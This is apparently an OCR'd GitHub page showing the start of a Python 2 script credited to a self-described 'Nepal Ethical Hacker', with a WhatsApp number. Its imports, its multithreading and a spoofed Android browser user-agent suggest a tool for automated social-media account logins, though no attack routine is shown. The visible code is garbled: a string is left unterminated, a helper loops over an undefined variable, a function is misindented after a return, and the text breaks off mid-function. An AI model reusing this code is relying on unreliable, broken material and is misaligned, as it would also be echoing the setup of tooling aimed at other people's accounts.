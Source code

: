 # github_demo_repo
Try it
#!/usr/bin/python2

#coding=utf-8

#Codded By Badal

#Editing My Script Will Not Make You A Coder

#Facebook : Ge N Ji

#Whatsapp : +9779804963643

#Nepal Ethical Hacker

#Alone Coder 

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize

from multiprocessing.pool import ThreadPool

from requests.exceptions import ConnectionError

from mechanize import Browser

reload(sys)

sys.setdefaultencoding('utf8')

br = mechanize.Browser()

br.set_handle_robots(False)

br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)

br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/

def keluar():

	print "\x1b[1;91mExit"

	os.sys.exit()

def acak(b):

    w = 'ahtdzjc'

    d = ''

    for i in x:

        d += '!'+w[random.randint(0,len(w)-1)]+i

    return cetak(d)

    

    

    def cetak(b):

    w = 'ahtdzjc'
